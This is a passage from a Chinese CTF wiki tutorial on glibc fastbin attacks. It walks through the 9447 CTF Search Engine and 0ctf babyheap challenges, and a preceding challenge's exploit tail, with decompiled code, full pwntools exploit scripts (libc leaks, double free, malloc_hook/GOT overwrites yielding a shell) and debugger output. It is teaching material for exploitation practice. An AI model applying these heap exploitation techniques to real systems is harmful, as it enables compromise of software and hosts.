    while oifle < 0x3f:
        # set next link=NULL
        add(25 * 'a', 'a' * 27 + p32(0))
        oifle += 1
    payload = 'a' * 27 + p32(0x0804a2a8)
    # set next link=0x0804A2A8, try to free a fake chunk
    add(25 * 'a', payload)
    # before free, we need to bypass some check
    # fake chunk's size is 0x40
    # 0x20 *'a' for padding the last fake chunk
    # 0x40 for fake chunk's next chunk's prev_size
    # 0x100 for fake chunk's next chunk's size
    # set fake iofle' next to be NULL
    payload = 0x20 * '\x00' + p32(0x40) + p32(0x100)
    payload = payload.ljust(52, 'b')
    payload += p32(0)
    payload = payload.ljust(128, 'c')
    message(payload)
    # fastbin 0x40: 0x0804A2A0->some where heap->NULL
    order()
    p.recvuntil('Okay order submitted!\n')

    print 'step 3. get shell'
    # modify free@got to system addr
    payload = p32(oreo.got['strlen']).ljust(20, 'a')
    add(payload, 'b' * 20)
    log.success('system addr: ' + hex(system_addr))
    #gdb.attach(p)
    message(p32(system_addr) + ';/bin/sh\x00')

    p.interactive()


if __name__ == "__main__":
    exp()

```

当然，该题目也可以使用 `fast bin attack` 中的其它技术来实现，可参考参考文献中的链接。

## 2015 9447 CTF : Search Engine
[题目链接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/fastbin-attack/2015_9447ctf_search-engine)

### 基本信息

```shell
➜  2015_9447ctf_search-engine git:(master) file search
search: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=4f5b70085d957097e91f940f98c0d4cc6fb3343f, stripped
➜  2015_9447ctf_search-engine git:(master) checksec search
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/fastbin_attack/2015_9447ctf_search-engine/search'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled

```

### 基本功能

程序的基本功能是

- 索引一个句子
  - 大小v0，(unsigned int)(v0 - 1) > 0xFFFD
  - 读取的字符串长度必须和给定的大小相等
  - 每次索引的句子都是直接在直接建立在前面的句子上的。
- 在一个句子中搜索单词
  - 大小v0，(unsigned int)(v0 - 1) > 0xFFFD
- 读取指定长度字符串
  - 如果有回车标记
    - 在指定长度内没有遇到回车，则读完没有设置NULL标记
    - 在指定长度内遇到回车，就截断返回。
  - 没有回车标记
    - 读够指定长度，没有NULL标记结尾。

### 词语结构体

通过分析索引句子的过程，我们可以得到词语的结构如下

```
00000000 word_struct     struc ; (sizeof=0x28, mappedto_6)
00000000 content         dq ?
00000008 size            dd ?
0000000C padding1        dd ?
00000010 sentence_ptr    dq ?                    ; offset
00000018 len             dd ?
0000001C padding2        dd ?
00000020 next            dq ?                    ; offset
00000028 word_struct     ends
```

### 堆内存相关操作

分配

- malloc 40 字节为一个word结构体
- 为句子或者单词 malloc 指定大小。

释放

- 释放删除的句子
- 释放删除句子所搜索的临时单词
- 释放索引句子时未使用的单词结构

### 漏洞

**索引句子读取字符串时无NULL结尾**

在索引句子时 flag_enter 永远为 0，所以读取句子时最后没有 NULL 结尾。

```c
    _flag_enter = flag_enter;
    v4 = 0;
    while ( 1 )
    {
      v5 = &s[v4];
      v6 = fread(&s[v4], 1uLL, 1uLL, stdin);
      if ( v6 <= 0 )
        break;
      if ( *v5 == '\n' && _flag_enter )
      {
        if ( v4 )
        {
          *v5 = 0;
          return;
        }
        v4 = v6 - 1;
        if ( len <= v6 - 1 )
          break;
      }
      else
      {
        v4 += v6;
        if ( len <= v4 )
          break;
      }
    }
```

**读取选择操作数**

```c
__int64 read_num()
{
  __int64 result; // rax
  char *endptr; // [rsp+8h] [rbp-50h]
  char nptr; // [rsp+10h] [rbp-48h]
  unsigned __int64 v3; // [rsp+48h] [rbp-10h]

  v3 = __readfsqword(0x28u);
  read_str(&nptr, 48, 1);
  result = strtol(&nptr, &endptr, 0);
  if ( endptr == &nptr )
  {
    __printf_chk(1LL, "%s is not a valid number\n", &nptr);
    result = read_num();
  }
  __readfsqword(0x28u);
  return result;
}
```

因为 read_str 不设置NULL ，因此，如果 nptr 读取的不合法的话，就有可能会 leak 出栈上的内容。

**索引句子释放未置NULL**

```c
  else
  {
    free(v6);
  }
```

**搜索词语中删除词语时，对应句子指针只是释放，并没有设置为NULL**

```c
  for ( i = head; i; i = i->next )
  {
    if ( *i->sentence_ptr )
    {
      if ( LODWORD(i->size) == v0 && !memcmp((const void *)i->content, v1, v0) )
      {
        __printf_chk(1LL, "Found %d: ", LODWORD(i->len));
        fwrite(i->sentence_ptr, 1uLL, SLODWORD(i->len), stdout);
        putchar('\n');
        puts("Delete this sentence (y/n)?");
        read_str(&choice, 2, 1);
        if ( choice == 'y' )
        {
          memset(i->sentence_ptr, 0, SLODWORD(i->len));
          free(i->sentence_ptr);
          puts("Deleted!");
        }
      }
    }
  }
  free(v1);
```

可以看出，在每次释放 i->sentence_ptr 之前，这个句子的内容就会全部被设置为 `\x00` ，由于单词结构体中存储的单词只是句子的一个指针，所以单词也会被置为 `\x00` 。该句子对应的那些单词仍然是存在于链表中的，并没有被删除，因此每次搜索单词的时候，仍然会判断。看起来由于句子内容被置为 `\x00` 可以防止通过 `*i->sentence_ptr` 验证。然而，由于 chunk 被释放后会被放到 bin 中，当 chunk 不是 fastbin 或者 chunk 被重新分配出去使用的时候，也就有可能会产生 double free 的情况。此外，当句子被 `memset` 的时候，单词虽然都变为了 `\x00` ，但是我们仍然可以通过两个 `\x00` 的比较来绕过 `memcmp` 的检测。

### 利用

#### 利用思路

基本利用思路如下

- 利用 unsorted bin 地址泄漏 libc 基地址
- 利用 double free 构造 fastbin 循环链表
- 分配 chunk 到 malloc_hook 附近，修改malloc_hook 为 one_gadget

#### 泄漏 libc 地址

这里我们分配一个 small bin 大小的 chunk ，当它被释放后，就会放入到 unsorted bin 中。因而，只要 `unsorted bin` 的地址的起始字节不是 `\x00` 便可以通过验证。同时，我们可以构造 `\x00` 来进行比较，从而通过验证。具体如下

```python
def leak_libc():
    smallbin_sentence = 's' * 0x85 + ' m '
    index_sentence(smallbin_sentence)
    search_word('m')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('y')
    search_word('\x00')
    p.recvuntil('Found ' + str(len(smallbin_sentence)) + ': ')
    unsortedbin_addr = u64(p.recv(8))
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('n')
    return unsortedbin_addr
```

#### 构造 fastbin 循环链表

由于我们最后希望在 malloc_hook 处分配 chunk，而一般分配 malloc_hook 附近的 chunk 一般大小都是0x7f。即，我们所需要设置的设置的 fast bin 的数据字节部分的大小为 0x60。这里我们按照如下方式构造

1. 分别索引句子a，索引句子b，索引句子c，则此时单词链表中索引的句子的相对顺序为c->b->a。假设句子 a 为'a' * 0x5d+' d '，句子 b 为 'b' * 0x5d+' d '，句子c类似。
2. 索引单词d，三个均删除，则此时 fastbin 中的链表情况为 a->b->c->NULL，这是因为首先释放的是句子c，最后释放的是句子 a 。这时，搜索单词时`*i->sentence_ptr` 对于a, b 来说都是可以绕过的。
3. 我们此时再次删除搜索单词 `\x00`。首先遍历的是 c，但是 c 的验证不通过；其次遍历的是b，验证通过，我们将其释放；其次遍历的是a，验证通过，但是我们不删除。则此时 fastbin 的情况为 b->a->b->a->...。即已经构成了double free b的情况。由于我们先前为了 leak libc 还建立一个句子，所以还有一个单词可以比较，这里我们也不删除。

具体代码如下

```python
    # 2. create cycle fastbin 0x70 size
    index_sentence('a' * 0x5d + ' d ')  #a
    index_sentence('b' * 0x5d + ' d ')  #b
    index_sentence('c' * 0x5d + ' d ')  #c

    # a->b->c->NULL
    search_word('d')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('y')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('y')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('y')

    # b->a->b->a->...
    search_word('\x00')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('y')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('n')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('n')
```

效果如下

```shell
pwndbg> fastbins
fastbins
0x20: 0x0
0x30: 0x1d19320 ◂— 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x1d191b0 —▸ 0x1d19010 —▸ 0x1d191b0 ◂— 0x1d19010
0x80: 0x0
```

#### 分配 malloc_hook 附近chunk

此时，fastbin 的链表为 b->a->b->a->…，则我们可以在申请第一个相同大小的 chunk 时，设置 b 的 fd 为 malloc_hook 附近处的 chunk `0x7fd798586aed`（这里是举一个例子，代码中需使用相对地址）。

```shell
pwndbg> print (void*)&main_arena
$1 = (void *) 0x7fd798586b20 <main_arena>
pwndbg> x/8gx 0x7fd798586b20-16
0x7fd798586b10 <__malloc_hook>:	0x0000000000000000	0x0000000000000000
0x7fd798586b20 <main_arena>:	0x0000000000000000	0x0000000000bce130
0x7fd798586b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7fd798586b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
pwndbg> find_fake_fast 0x7fd798586b10 0x7f
FAKE CHUNKS
0x7fd798586aed PREV_INUSE IS_MMAPED NON_MAIN_ARENA {
  prev_size = 15535264025435701248,
  size = 127,
  fd = 0xd798247e20000000,
  bk = 0xd798247a0000007f,
  fd_nextsize = 0x7f,
  bk_nextsize = 0x0
}
pwndbg> print /x 0x7fd798586b10-0x7fd798586aed
$2 = 0x23
pwndbg> print /x 0x7fd798586b20-0x7fd798586aed
$3 = 0x33

```

那么当再次分配 b 的时候，由于此时 b 的 fd 已经被我们修改为了malloc_hook附近的地址，所以这时候我们再次分配一个 chunk，就会指向 `0x7fd798586aed`。 此后便只需要将 malloc_hook 修改为 one_gadget 地址就可以拿到 shell 了。

```python
    # 3. fastbin attack to malloc_hook nearby chunk
    fake_chunk_addr = main_arena_addr - 0x33
    fake_chunk = p64(fake_chunk_addr).ljust(0x60, 'f')

    index_sentence(fake_chunk)

    index_sentence('a' * 0x60)

    index_sentence('b' * 0x60)

    one_gadget_addr = libc_base + 0xf02a4
    payload = 'a' * 0x13 + p64(one_gadget_addr)
    payload = payload.ljust(0x60, 'f')
    #gdb.attach(p)
    index_sentence(payload)
    p.interactive()
```

这里可能需要多选择几个 one_gadget 地址，因为 one_gadget 成功是有条件的。

#### shell

```shell
➜  2015_9447ctf_search-engine git:(master) python exp.py
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/fastbin_attack/2015_9447ctf_search-engine/search'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
[+] Starting local process './search': pid 31158
[*] PID: 31158
[+] unsortedbin addr: 0x7f802e73bb78
[+] libc base addr: 0x7f802e377000
[*] Switching to interactive mode
Enter the sentence:
$ ls
exp.py       search      search.id1  search.nam
libc.so.6  search.id0  search.id2  search.til
```

当然，这里还有一种[方法](https://www.gulshansingh.com/posts/9447-ctf-2015-search-engine-writeup/)，将 chunk 分配到栈上。

## 2017 0ctf babyheap
[题目链接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/fastbin-attack/2017_0ctf_babyheap)

### 基本信息

```shell
➜  2017_0ctf_babyheap git:(master) file babyheap
babyheap: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=9e5bfa980355d6158a76acacb7bda01f4e3fc1c2, stripped
➜  2017_0ctf_babyheap git:(master) checksec babyheap
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/fastbin_attack/2017_0ctf_babyheap/babyheap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

64位程序，保护全部开启。

### 基本功能

程序是一个堆分配器，主要由以下四种功能

```c
  puts("1. Allocate");
  puts("2. Fill");
  puts("3. Free");
  puts("4. Dump");
  puts("5. Exit");
  return printf("Command: ");
```

其中，每次读取命令的函数由读取指定长度的字符串的函数而决定。

通过分配函数

```c
void __fastcall allocate(__int64 a1)
{
  signed int i; // [rsp+10h] [rbp-10h]
  signed int v2; // [rsp+14h] [rbp-Ch]
  void *v3; // [rsp+18h] [rbp-8h]

  for ( i = 0; i <= 15; ++i )
  {
    if ( !*(_DWORD *)(24LL * i + a1) )
    {
      printf("Size: ");
      v2 = read_num();
      if ( v2 > 0 )
      {
        if ( v2 > 4096 )
          v2 = 4096;
        v3 = calloc(v2, 1uLL);
        if ( !v3 )
          exit(-1);
        *(_DWORD *)(24LL * i + a1) = 1;
        *(_QWORD *)(a1 + 24LL * i + 8) = v2;
        *(_QWORD *)(a1 + 24LL * i + 16) = v3;
        printf("Allocate Index %d\n", (unsigned int)i);
      }
      return;
    }
  }
}
```

申请的 chunk 的最大为 4096。此外，我们可以看出每个 chunk 主要有三个字段：是否在使用，堆块大小，堆块位置。故而我们可以创建对应的结构体。

```
00000000 chunk           struc ; (sizeof=0x18, mappedto_6)
00000000 inuse           dq ?
00000008 size            dq ?
00000010 ptr             dq ?
00000018 chunk           ends
```

**需要注意的是堆块是由 calloc 分配的，所以 chunk 中的内容全都为`\x00`。**

在填充内容的功能中，使用读取内容的函数是直接读取指定长度的内容，并没有设置字符串结尾。**而且比较有意思的是，这个指定长度是我们指定的，并不是之前 chunk 分配时指定的长度，所以这里就出现了任意堆溢出的情形。**

```c
__int64 __fastcall fill(chunk *a1)
{
  __int64 result; // rax
  int v2; // [rsp+18h] [rbp-8h]
  int v3; // [rsp+1Ch] [rbp-4h]

  printf("Index: ");
  result = read_num();
  v2 = result;
  if ( (signed int)result >= 0 && (signed int)result <= 15 )
  {
    result = LODWORD(a1[(signed int)result].inuse);
    if ( (_DWORD)result == 1 )
    {
      printf("Size: ");
      result = read_num();
      v3 = result;
      if ( (signed int)result > 0 )
      {
        printf("Content: ");
        result = read_content((char *)a1[v2].ptr, v3);
      }
    }
  }
  return result;
}
```

在释放chunk的功能中该设置的都设置了。

```c
__int64 __fastcall free_chunk(chunk *a1)
{
  __int64 result; // rax
  int v2; // [rsp+1Ch] [rbp-4h]

  printf("Index: ");
  result = read_num();
  v2 = result;
  if ( (signed int)result >= 0 && (signed int)result <= 15 )
  {
    result = LODWORD(a1[(signed int)result].inuse);
    if ( (_DWORD)result == 1 )
    {
      LODWORD(a1[v2].inuse) = 0;
      a1[v2].size = 0LL;
      free(a1[v2].ptr);
      result = (__int64)&a1[v2];
      *(_QWORD *)(result + 16) = 0LL;
    }
  }
  return result;
}
```

dump 就是输出对应索引 chunk 的内容。

### 利用思路

可以确定的是，我们主要有的漏洞就是任意长度堆溢出。由于该程序几乎所有保护都开启了，所以我们必须要有一些泄漏才可以控制程序的流程。基本利用思路如下

- 利用 unsorted bin 地址泄漏 libc 基地址。
- 利用 fastbin attack 将chunk 分配到 malloc_hook 附近。

#### 泄漏 libc 基地址

由于我们是希望使用 unsorted bin 来泄漏 libc 基地址，所以必须要有 chunk 可以被链接到 unsorted bin 中，所以该 chunk 不能使 fastbin chunk，也不能和 top chunk 相邻。因为前者会被添加到 fastbin 中，后者在不是fastbin 的情况下，会被合并到 top chunk 中。因此，我们这里构造一个 small bin chunk。在将该 chunk 释放到 unsorted bin 的同时，也需要让另外一个正在使用的 chunk 可以同时指向该 chunk 的位置。这样才可以进行泄漏。具体设计如下

```Python
    # 1. leak libc base
    allocate(0x10)  # idx 0, 0x00
    allocate(0x10)  # idx 1, 0x20
    allocate(0x10)  # idx 2, 0x40
    allocate(0x10)  # idx 3, 0x60
    allocate(0x80)  # idx 4, 0x80
    # free idx 1, 2, fastbin[0]->idx1->idx2->NULL
    free(2)
    free(1)
```

首先，我们申请了 5 个chunk，并释放了两个chunk，此时堆的情况如下。

```shell
pwndbg> x/20gx 0x55a03ca22000
0x55a03ca22000:	0x0000000000000000	0x0000000000000021 idx 0
0x55a03ca22010:	0x0000000000000000	0x0000000000000000
0x55a03ca22020:	0x0000000000000000	0x0000000000000021 idx 1
0x55a03ca22030:	0x000055a03ca22040	0x0000000000000000
0x55a03ca22040:	0x0000000000000000	0x0000000000000021 idx 2
0x55a03ca22050:	0x0000000000000000	0x0000000000000000
0x55a03ca22060:	0x0000000000000000	0x0000000000000021 idx 3
0x55a03ca22070:	0x0000000000000000	0x0000000000000000
0x55a03ca22080:	0x0000000000000000	0x0000000000000091 idx 4
0x55a03ca22090:	0x0000000000000000	0x0000000000000000
pwndbg> fastbins
fastbins
0x20: 0x55a03ca22020 —▸ 0x55a03ca22040 ◂— 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0

```

当我们编辑 idx0 后，确实已经将其指向idx4了。这里之所以可以成功是因为堆的始终是 4KB 对齐的，所以idx 4的起始地址的第一个字节必然是0x80。

```python
    # edit idx 0 chunk to particial overwrite idx1's fd to point to idx4
    payload = 0x10 * 'a' + p64(0) + p64(0x21) + p8(0x80)
    fill(0, len(payload), payload)
```

修改成功后如下

```shell
pwndbg> x/20gx 0x55a03ca22000
0x55a03ca22000:	0x0000000000000000	0x0000000000000021
0x55a03ca22010:	0x6161616161616161	0x6161616161616161
0x55a03ca22020:	0x0000000000000000	0x0000000000000021
0x55a03ca22030:	0x000055a03ca22080	0x0000000000000000
0x55a03ca22040:	0x0000000000000000	0x0000000000000021
0x55a03ca22050:	0x0000000000000000	0x0000000000000000
0x55a03ca22060:	0x0000000000000000	0x0000000000000021
0x55a03ca22070:	0x0000000000000000	0x0000000000000000
0x55a03ca22080:	0x0000000000000000	0x0000000000000091
0x55a03ca22090:	0x0000000000000000	0x0000000000000000
pwndbg> fastbins
fastbins
0x20: 0x55a03ca22020 —▸ 0x55a03ca22080 ◂— 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
```

那么，当我们再次申请两个时，第二个申请到的就是idx 4处的chunk。为了能够申请成功，我们需要确保 idx4 的size 与当前 fastbin 的大小一致，所以，我们得修改它的大小。申请成功后，idx2会指向idx4。

```python
    # if we want to allocate at idx4, we must set it's size as 0x21
    payload = 0x10 * 'a' + p64(0) + p64(0x21)
    fill(3, len(payload), payload)
    allocate(0x10)  # idx 1
    allocate(0x10)  # idx 2, which point to idx4's location
```

之后，如果我们想要将 idx 4 放到 unsorted bin 中的话，为了防止其与top chunk 合并，我们需要再次申请一个chunk。此后再释放 idx4 就会进入 unsorted bin中去了。此时由于 idx2 也指向这个地址，所以我们直接展示他的内容就可以得到unsorted bin的地址了。

```python
    # if want to free idx4 to unsorted bin, we must fix its size
    payload = 0x10 * 'a' + p64(0) + p64(0x91)
    fill(3, len(payload), payload)
    # allocate a chunk in order when free idx4, idx 4 not consolidate with top chunk
    allocate(0x80)  # idx 5
    free(4)
    # as idx 2 point to idx4, just show this
    dump(2)
    p.recvuntil('Content: \n')
    unsortedbin_addr = u64(p.recv(8))
    main_arena = unsortedbin_addr - offset_unsortedbin_main_arena
    log.success('main arena addr: ' + hex(main_arena))
    main_arena_offset = 0x3c4b20
    libc_base = main_arena - main_arena_offset
    log.success('libc base addr: ' + hex(libc_base))
```

#### 分配chunk到malloc_hook附近

由于 malloc hook 附近的 chunk 大小为 0x7f，所以数据区域为0x60。这里我们再次申请的时候，对应 fastbin 链表中没有相应大小chunk，所以根据堆分配器规则，它会依次处理unsorted bin中的chunk，将其放入到对应的bin中，之后会再次尝试分配 chunk，因为之前释放的 chunk 比当前申请的 chunk 大，所以可以从其前面分割出来一块。所以 idx2 仍然指向该位置，那么我们可以使用类似的办法先释放申请到的chunk，然后再次修改 fd 指针为 fake chunk 即可。此后我们修改 malloc_hook 处的指针即可得到触发 onegadget。

```Python
# 2. malloc to malloc_hook nearby
# allocate a 0x70 size chunk same with malloc hook nearby chunk, idx4
allocate(0x60)
free(4)
# edit idx4's fd point to fake chunk
fake_chunk_addr = main_arena - 0x33
fake_chunk = p64(fake_chunk_addr)
fill(2, len(fake_chunk), fake_chunk)

allocate(0x60)  # idx 4
allocate(0x60)  # idx 6

one_gadget_addr = libc_base + 0x4526a
payload = 0x13 * 'a' + p64(one_gadget_addr)
fill(6, len(payload), payload)
# trigger malloc_hook
allocate(0x100)
p.interactive()
```
同时，这里的 onegadget 地址也可能需要尝试多次。

## 题目

- L-CTF2016–pwn200

## 参考文献

- https://www.gulshansingh.com/posts/9447-ctf-2015-search-engine-writeup/
- http://uaf.io/exploitation/2017/03/19/0ctf-Quals-2017-BabyHeap2017.html
- https://www.slideshare.net/YOKARO-MON/oreo-hacklu-ctf-2014-65771717
